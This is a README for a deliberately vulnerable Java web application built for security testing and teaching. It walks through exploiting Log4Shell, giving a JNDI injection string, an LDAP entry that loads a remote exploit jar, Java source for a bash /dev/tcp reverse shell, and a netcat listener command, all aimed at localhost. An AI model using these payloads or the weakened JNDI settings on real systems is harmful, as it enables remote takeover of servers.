 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceExploit`. Triggering the static method in the malicious class shown below, which attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To establish a remote network connection to the compromised web-server, you (as the *bad-actor*) must start a listener on port `8083`. For example, using `netcat`:


```bash
nc -l 8083
```

#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 
